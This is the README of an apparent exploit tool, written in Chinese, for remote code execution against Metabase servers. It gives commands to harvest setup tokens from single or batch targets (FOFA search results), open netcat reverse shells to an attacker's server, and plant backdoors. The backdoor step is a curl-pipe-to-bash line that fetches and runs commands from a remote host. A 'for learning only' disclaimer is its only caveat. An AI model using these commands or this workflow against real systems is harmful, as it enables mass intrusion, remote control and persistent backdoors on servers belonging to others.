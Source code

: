 # metabase_exp
metabase rce
仅供学习使用
漏洞利用过程为：获取token->测试token是否可用->尝试nc反弹->尝试自定义命令留后门


获取token
python3 metabase_exp.py poc -u xxx.com
批量获取token    fofa搜的json可以直接用，其他的需要手工改一下host定位字段
python3  metabase_exp.py poc -f 文件名.json -o 输出文件名.json


尝试nc反弹
python3 metabase_exp.py exp -u xxx.com -t xxx -i 服务器ip -p 服务器端口
nc批量弹，虽然nc只能上线一个但是token不一定每个都能用，所以批量上方便点哪台弹上打哪台，然后把批量文件中打进去的哪台以上都删掉，或者多打几遍有脏东西的有的时候就是会莫名其妙上线不了
python3 metabase_exp.py exp -f poc生成的json文件 -i 服务器ip -p 服务器端口


尝试自定义命令留后门
我的思路是curl -A O  -o- -L http://xxx/a.html | bash -s 直接把要执行的命令写a.html里面，payload写太长会出问题不能执行
python3 metabase_exp.py backdoor  -f/-u -t  json文件/ip token -p 你的payload


我遇到的问题：waf，不出网，无法后利用
太菜了写的不是很好啊哈哈


我的库版本
certifi            2023.5.7
charset-normalizer 3.2.0
pip                23.2.1
pycryptodomex      3.14.0
requests           2.31.0
setuptools         67.6.1
urllib3            2.0.3
wheel              0.40.0
版本问题没试过
